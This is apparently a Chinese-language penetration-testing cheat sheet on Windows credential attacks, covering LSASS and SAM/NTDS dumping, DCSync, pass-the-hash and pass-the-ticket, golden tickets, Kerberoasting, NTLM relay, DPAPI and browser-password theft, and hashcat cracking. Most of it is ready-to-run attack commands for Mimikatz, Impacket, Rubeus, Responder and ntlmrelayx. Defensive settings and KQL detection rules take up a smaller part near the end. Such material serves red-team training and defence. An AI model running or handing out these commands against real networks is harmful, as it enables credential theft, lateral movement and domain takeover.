



# 密码学攻击与哈希传递

> 从密码哈希到Kerberos票据，系统掌握Windows凭证攻击技术

---

## 一、Windows凭证体系

### 1.1 凭证类型

| 凭证类型 | 存储位置 | 用途 | 提取方法 |
|:---------|:---------|:-----|:---------|
| LM Hash | SAM | 旧版Windows认证 | Mimikatz/卷影拷贝 |
| NTLM Hash | SAM/NTDS | Windows网络认证 | DCSync/LSASS转储 |
| Kerberos TGT | LSASS内存 | Kerberos认证 | Mimikatz/Rubeus |
| Kerberos 服务票据 | LSASS内存 | 服务访问 | Mimikatz/Rubeus |
| 明文密码 | LSASS内存 | 各种认证 | Mimikatz(需补丁) |
| DPAPI主密钥 | 用户目录 | 解密受保护数据 | Mimikatz |
| Kerberos AES Key | LSASS/NTDS | 现代Kerberos | DCSync/Mimikatz |

### 1.2 密码哈希存储

#### SAM (本地用户)
```
位置: C:\Windows\System32\config\SAM
加密: SysKey(RC4)+ 加盐hash
访问: 系统运行时被锁定，需System权限
提取: 卷影拷贝/注册表hive在线提取
格式: username:RID:LM:HASH::: 
```

#### NTDS.dit (域用户)
```
位置: C:\Windows\NTDS\NTDS.dit
内容: 所有域用户hash+组+策略
加密: 可被系统密钥解密
提取: DCSync/卷影拷贝/ntdsutil
格式: domain\username:RID:LM:HASH:::
```

#### LSASS内存
```
进程: lsass.exe
内容: 登录用户的明文密码/NTLM hash/Kerberos票据
保护: LSA保护(PP) / Credential Guard
提取: Mimikatz/Procdump/Pypykatz
```

---

## 二、哈希提取技术

### 2.1 LSASS内存转储

```powershell
# Mimikatz (经典)
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# 远程Mimikatz
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > log.txt

# 通过Procdump
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# 在攻击机上分析
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"

# 通过Comsvcs.dll (无文件)
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\temp\lsass.dmp full

# Pypykatz (Python实现)
pypykatz lsa minidump lsass.dmp
```

### 2.2 SAM/NTDS提取

```powershell
# 卷影拷贝SAM
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\temp\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\SYSTEM

# 注册表hive
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM

# 离线破解SAM
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

# NTDS提取 (卷影拷贝)
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

# ntdsutil
ntdsutil "ac i ntds" "ifm" "create full C:\temp\ntds" q q

# DCSync (在线远程)
impacket-secretsdump -just-dc DOMAIN/Administrator:Password@DC01
```

### 2.3 DCSync原理



所需权限:
- Domain Admins
- Enterprise Admins
- 拥有Replication权限的用户
- 被委派了"复制目录更改"权限

---

## 三、哈希传递攻击 (Pass-the-Hash)

### 3.1 PtH原理

```
无需知道明文密码 → 只需NTLM hash即可通过NTLM认证

客户端:
1. 用hash计算 NTLM响应
2. 发送NTLM响应到服务器

服务器:
1. 从SAM/NTDS获取hash
2. 用hash验证NTLM响应
3. 匹配则认证成功
```

### 3.2 工具实现

```bash
# Impacket (Linux)
impacket-psexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-wmiexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-smbexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-dcomexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-atexec -hashes LMHASH:NTHASH DOMAIN/User@Target

# Mimikatz (Windows)
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd.exe

# CrackMapExec (批量)
cme smb 192.168.1.0/24 -u Administrator -H HASH
cme smb targets.txt -u Administrator -H HASH -x whoami
cme winrm targets.txt -u Administrator -H HASH

# Metasploit
use exploit/windows/smb/psexec
set RHOSTS Target
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:HASH
set SMBDomain DOMAIN
```

### 3.3 PtH检测与防御

| 防御措施 | 作用 | 绕过难度 |
|:---------|:-----|:---------|
| LSA保护 | 防止LSASS内存读取 | 高 |
| Credential Guard | 虚拟化保护凭证 | 极高 |
| KB2871997 | 限制本地管理员PtH | 中 |
| 受限管理员模式 | 需Credential Guard | 高 |
| SMB签名 | Lv2阻止中继 | 中 |
| 本地管理员密码随机(LAPS) | 唯一本地密码 | 高 |

---

## 四、票据传递攻击 (Pass-the-Ticket)

### 4.1 Kerberos协议回顾

```
1. AS-REQ → AS-REP (TGT)
   └─ 客户端用密码hash解密TGT
2. TGS-REQ → TGS-REP (服务票据)
   └─ 客户端用TGT请求服务票据
3. AP-REQ (服务票据)
   └─ 客户端用服务票据访问服务
```

### 4.2 PtT原理

```
攻击者有合法TGT/服务票据 → 注入到当前会话 → 冒充合法用户

不需要密码hash
不受密码变更影响(票据有效期内)
可以跨域信任(如果票据允许)
```

### 4.3 工具实现

```bash
# Mimikatz
# 导出票据
sekurlsa::tickets /export

# 注入票据
kerberos::ptt [0;12bd0]-0-0-40a10000-Administrator@krbtgt-DOMAIN.LOCAL.kirbi

# Rubeus
# 从LSASS提取票据
Rubeus.exe dump

# 注入票据
Rubeus.exe ptt /ticket:ticket.kirbi

# 从base64票据注入
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEW...

# 验证
klist
dir \\DC01\C$
```

### 4.4 Golden Ticket vs Silver Ticket

| 特性 | 黄金票据 | 白银票据 |
|:----|:---------|:---------|
| 目标 | TGT (krbtgt) | 服务票据 (服务账户) |
| 需要hash | krbtgt hash | 服务hash |
| 权限 | 域内任意访问 | 特定服务访问 |
| 负载 | KDC不验证 | 服务不验证TGS |
| 生命周期 | 默认10年 | 默认10年 |
| 检测 | 较容易(Event 4768) | 较难(无TGS请求) |
| 适用场景 | 域控沦陷后 | 已获服务hash |

---

## 五、Over Pass-The-Hash

### 5.1 原理

```
从NTLM hash → 生成Kerberos TGT → 注入使用

绕过: 需要NTLM hash的应用
使用: Kerberos认证的应用
```

### 5.2 实现

```bash
# Mimikatz
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd.exe
# 在新cmd中
klist  # 可看到TGT

# Impacket
impacket-ticketer -nthash HASH -domain DOMAIN.LOCAL -user Administrator -sid S-1-5-21-...
export KRB5CCNAME=ticket.ccache
impacket-psexec -k -no-pass DOMAIN/Administrator@Target

# Rubeus
Rubeus.exe asktgt /user:Administrator /rc4:HASH /ptt
```

---

## 六、Kerberos攻击

### 6.1 Kerberoasting

#### 原理
```
1. 请求SPN关联的服务票据(TGS)
2. 服务票据用服务账户的NTLM hash加密
3. 离线破解服务票据 → 获得服务账户密码
4. 条件: 任何域用户可请求服务票据
```

#### 实现
```bash
# PowerView
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Request-SPNTicket -SPN "MSSQLSvc/sql.domain.local"

# Impacket
python3 GetUserSPNs.py DOMAIN.LOCAL/user:password -request -outputfile hashes.txt

# Rubeus
Rubeus.exe kerberoast /nowrap

# 破解
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
john --format=krb5tgs hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### 6.2 AS-REP Roasting

#### 原理
```
1. 用户配置了"不要求Kerberos预认证"(DONT_REQUIRE_PREAUTH)
2. 可直接请求AS-REP
3. AS-REP中部分数据用用户hash加密
4. 离线破解 → 用户密码
```

#### 实现
```bash
# PowerView
Get-NetUser -UACFilter DONT_REQUIRE_PREAUTH

# Impacket
python3 GetNPUsers.py DOMAIN.LOCAL/ -usersfile users.txt -format hashcat -outputfile hashes.txt

# Rubeus
Rubeus.exe asreproast /format:hashcat /nowrap

# 破解
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt
```

### 6.3 Kerberos委派攻击

| 委派类型 | 描述 | 攻击方法 |
|:---------|:-----|:---------|
| 无约束委派 | 服务可任意模拟用户 | 捕获TGT |
| 约束委派 | 仅指定服务可模拟用户 | S4U2Self/S4U2Proxy扩展 |
| 资源委派(RBCD) | 资源信任指定账户 | msDS-AllowedToActOnBehalfOfOtherIdentity写入 |

```mimikatz
# 无约束委派 → 捕获TGT
Rubeus.exe monitor /interval:5 /filteruser:DC01$
# 等待管理员登录 → TGT被捕获

# 约束委派 → S4U扩展
Rubeus.exe s4u /user:serviceaccount$ /rc4:HASH /impersonateuser:Administrator /msdsspn:"CIFS/DC01.domain.local" /ptt

# RBCD
Set-DomainRBCD -Identity TARGET$ -DelegateFrom 'FAKECOMPUTER$'
```

### 6.4 Kerberos加密类型

| 加密类型 | 编号 | 安全性 |
|:---------|:----|:-------|
| RC4-HMAC | 0x17 | ❌ 弱(WEP) |
| AES128-CTS-HMAC-SHA1-96 | 0x11 | ✅ 中 |
| AES256-CTS-HMAC-SHA1-96 | 0x12 | ✅ 强 |
| DES-CBC-CRC | 0x01 | ❌ 禁用 |
| DES-CBC-MD5 | 0x03 | ❌ 禁用 |
| RC4-HMAC-EXP | 0x17/0x18 | ❌ 禁用 |

---

## 七、哈希破解技术

### 7.1 哈希类型识别

| Hash格式 | 示例 | 识别特征 |
|:---------|:-----|:---------|
| NTLM | `aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0` | 32 hex + : + 32 hex |
| LM | `aad3b435b51404ee` | 32 hex (默认空) |
| NetNTLMv1 | `::SERVER:CHALLENGE:RESPONSE` | 包含挑战 |
| NetNTLMv2 | `username::domain:challenge:NTLMv2response` | 包含用户名 |
| Kerberos TGS | `$krb5tgs$23$*user$domain$SPN*$...` | 以$krb5开头 |
| Kerberos AS-REP | `$krb5asrep$23$user@domain:...` | 以$krb5asrep开头 |
| MS-Cache | `$DCC2$10240#username#hash` | 域缓存hash |

### 7.2 破解工具

```bash
# Hashcat (GPU)
# NTLM
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# NetNTLMv2
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

# Kerberos TGS
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt

# Kerberos AS-REP
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt

# MS Cache v2
hashcat -m 2100 hashes.txt /usr/share/wordlists/rockyou.txt

# John (CPU)
john --format=nt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
john --format=krb5tgs hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

# 规则攻击
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule -O
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule -O

# 掩码攻击 (暴力)
hashcat -m 1000 hashes.txt -a 3 ?l?l?l?l?l?l?l?l -O
hashcat -m 1000 hashes.txt -a 3 ?a?a?a?a?a?a?a?a --increment --increment-min=6 -O

# 组合攻击
hashcat -m 1000 hashes.txt -a 1 dict1.txt dict2.txt
```

### 7.3 规则与掩码

```bash
# 常用规则
# best64.rule - 通用规则
# d3ad0ne.rule - 复杂规则
# OneRuleToRuleThemAll.rule - 综合规则
# T0XlC-rule.rule - 扩展规则

# 掩码字符集
?l = 小写字母 (a-z)
?u = 大写字母 (A-Z)  
?d = 数字 (0-9)
?s = 特殊字符 (!@#$%^&*)
?a = ?l?u?d?s
?b = 0x00-0xFF (所有字节)

# 自定义字符集
-1 ?l?u?d - 字母数字
-2 ?d?s - 数字+特殊
hashcat -m 1000 hashes.txt -a 3 -1 ?l?u?d ?1?1?1?1?1?1?1?1
```

---

## 八、NTLM中继攻击

### 8.1 原理



### 8.2 SMB中继

```bash
# Responder + ntlmrelayx
# 1. 关闭SMB服务
responder -I eth0 -rdw -f

# 2. 配置中继
impacket-ntlmrelayx -tf targets.txt -smb2support -c "powershell.exe -Enc ..."

# 3. 等待受害者访问(或触发)
# 利用LLMNR/NBT-NS/mDNS投毒
# 受害者输入凭证 → 中继到目标

# SMB到SMB中继 (签名关闭)
impacket-ntlmrelayx -tf targets.txt -smb2support
```

### 8.3 HTTP中继

```bash
# SMB到HTTP (如Outlook Web Access)
impacket-ntlmrelayx -tf http_targets.txt -smb2support

# HTTP到SMB
impacket-ntlmrelayx -tf smb_targets.txt -smb2support
```

### 8.4 LDAP中继

```bash
# NTLM中继到LDAP (添加用户)
impacket-ntlmrelayx -tf ldap_targets.txt -smb2support -add-computer
impacket-ntlmrelayx -tf ldap_targets.txt -smb2support -delegate-access
```

### 8.5 WebDAV中继

```bash
# WebDAV中继 (Outlook客户端触发)
# 1. 设置中继
impacket-ntlmrelayx -tf targets.txt -smb2support

# 2. 发送包含WebDAV链接的邮件
# Outlook自动连接 → NTLM认证 → 中继
```

### 8.6 防御

| 防御措施 | 效果 |
|:---------|:-----|
| SMB签名 | 阻止SMB中继 |
| LDAP签名 | 阻止LDAP中继 |
| 增强认证保护(EPA) | 绑定通道信息 |
| 禁用LLMNR/NBT-NS | 减少投毒机会 |
| 网络分段 | 限制中继路径 |

---

## 九、凭证攻击综合场景

### 9.1 获取初始凭证

```bash
# 1. 钓鱼获取凭证
# 2. Web漏洞获取hash
# 3. 暴力破解
hydra -l administrator -P passwords.txt rdp://192.168.1.1
crackmapexec smb 192.168.1.1 -u users.txt -p passwords.txt

# 4. Responder捕获
responder -I eth0 -rv

# 5. 中间人攻击
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.254//
```

### 9.2 横向移动凭证链



### 9.3 凭证清洗与分析

```bash
# 整理提取的凭证
# 1. NTLM hash分类
echo "HASH" | cut -d: -f3-4 > ntlm_hashes.txt

# 2. 去重
sort ntlm_hashes.txt | uniq > unique_hashes.txt

# 3. 关联用户
grep "admin" hashes.txt

# 4. 检查空密码/弱密码
hashcat -m 1000 ntlm_hashes.txt --show

# 5. 检查LM hash是否为空
grep "aad3b435b51404ee" hashes.txt
```

---

## 十、DPAPI攻击

### 10.1 DPAPI基础

```
DPAPI (Data Protection API)
- 保护: 浏览器密码/证书/WIFI密码/RDP凭据
- 主密钥: 用户目录下加密存储
- 解密: 用户密码/SID或域恢复密钥
```

### 10.2 DPAPI提取

```powershell
# Mimikatz提取DPAPI主密钥
sekurlsa::dpapi

# 系统DPAPI主密钥(需System)
dpapi::masterkey /in:C:\Users\User\AppData\Roaming\Microsoft\Protect\SID\GUID /rpc

# 解密Chrome密码
dpapi::chrome /in:C:\Users\User\AppData\Local\Google\Chrome\User Data\Default\Login Data

# SharpDPAPI
SharpDPAPI machinemasterkeys
SharpDPAPI userkeys
SharpDPAPI chrome
```

### 10.3 域恢复密钥

```mimikatz
# 域控恢复所有DPAPI密钥
lsadump::backupkeys /system:DC01.domain.local /export

# 解密用户DPAPI数据
dpapi::masterkey /in:masterkey.file /pvk:backupkey.pvk
```

---

## 十一、凭证攻击防御

### 11.1 安全配置

| 配置 | 效果 | 部署 |
|:-----|:-----|:-----|
| LSA保护 | 防止LSASS注入 | 注册表/组策略 |
| Credential Guard | 虚拟化保护凭证 | Windows 10+/2016+ |
| Windows Defender Credential Guard | 隔离LSASS | 组策略 |
| RDP受限管理员 | 阻止PtH | 注册表 |
| KB2871997 | 限制本地管理员 | Windows 8.1+ |
| LAPS | 本地管理员密码随机 | 域部署 |
| SMB签名 | 防止中继 | 组策略 |
| LDAP签名 | 防止LDAP中继 | 组策略 |

### 11.2 LSA保护配置

```
注册表:
HKLM\SYSTEM\CurrentControlSet\Control\Lsa
  RunAsPPL = 1 (dword)
  
组策略:
计算机配置 → Windows设置 → 安全设置 → 本地策略 → 安全选项
"LSASS以受保护进程运行" → 启用
```

### 11.3 Credential Guard配置

```powershell
# 检查是否启用
Get-CimInstance -Namespace root\Microsoft\Windows\DeviceGuard -Class Win32_DeviceGuard

# 启用(组策略)
计算机配置 → 管理模板 → 系统 → Device Guard
"启用基于虚拟化的安全性" → 已启用
"凭据保护" → 已启用
```

### 11.4 检测规则

```kql
# LSASS进程访问检测 (Event 10)
Security
| where EventID == 10
| where TargetImage contains "lsass.exe"
| where SourceImage !in ("lsass.exe", "winlogon.exe", "LogonUI.exe")

# DCSync检测 (Event 4662)
Security
| where EventID == 4662
| where AccessMask == "0x100"
| where ObjectType contains "domainDNS"

# Kerberoast检测 (Event 4769)
Security
| where EventID == 4769
| where ServiceName !endswith "$"
| where TicketEncryptionType == "0x17"
| where AccountName != CurrentUser
```

---

## 十二、速查总表

### 12.1 凭证提取命令速查

| 目标 | 命令 |
|:-----|:-----|
| LSASS明文/NTLM | `mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit` |
| SAM hash | `reg save HKLM\SAM SAM && reg save HKLM\SYSTEM SYSTEM` |
| NTDS.dit | `ntdsutil "ac i ntds" "ifm" "create full C:\temp\ntds" q q` |
| DCSync | `impacket-secretsdump -just-dc DOMAIN/admin:pass@DC` |
| Kerberoast | `Rubeus.exe kerberoast /nowrap` |
| AS-REP Roast | `Rubeus.exe asreproast /nowrap` |
| DPAPI密钥 | `mimikatz "sekurlsa::dpapi" exit` |
| 浏览器密码 | `SharpChrome.exe logins` |
| 域恢复密钥 | `mimikatz "lsadump::backupkeys /system:DC /export" exit` |
| 黄金票据 | `mimikatz "kerberos::golden /user:Admin /domain:DOMAIN /sid:SID /krbtgt:HASH /ptt" exit` |

### 12.2 哈希破解速查

| Hash类型 | Hashcat模式 | John格式 |
|:---------|:-----------|:---------|
| NTLM | 1000 | nt |
| NetNTLMv1 | 5500 | netntlm |
| NetNTLMv2 | 5600 | netntlmv2 |
| Kerberos TGS RC4 | 13100 | krb5tgs |
| Kerberos TGS AES | 19600 | krb5tgs |
| Kerberos AS-REP | 18200 | krb5asrep |
| MS Cache v2 | 2100 | mscash2 |
| LM | 3000 | lm |

### 12.3 推荐工具

| 工具 | 用途 | 来源 |
|:-----|:-----|:-----|
| Mimikatz | 凭证提取 | github.com/gentilkiwi/mimikatz |
| Impacket | 远程凭证利用 | github.com/SecureAuthCorp/impacket |
| Rubeus | Kerberos攻击 | github.com/GhostPack/Rubeus |
| Hashcat | GPU破解 | hashcat.net |
| John the Ripper | CPU破解 | openwall.com/john |
| Responder | NTLM捕获 | github.com/SpiderLabs/Responder |
| ntlmrelayx | NTLM中继 | Impacket组件 |
| SharpChrome | Chrome数据提取 | GhostPack |
| SharpDPAPI | DPAPI数据提取 | GhostPack |

---

> **参考资源**
>
> - Mimikatz Wiki
> - Impacket Documentation
> - Active Directory Security Blog
> - SpecterOps Blog - Kerberos Attack
> - SANS SEC660 Advanced Exploit
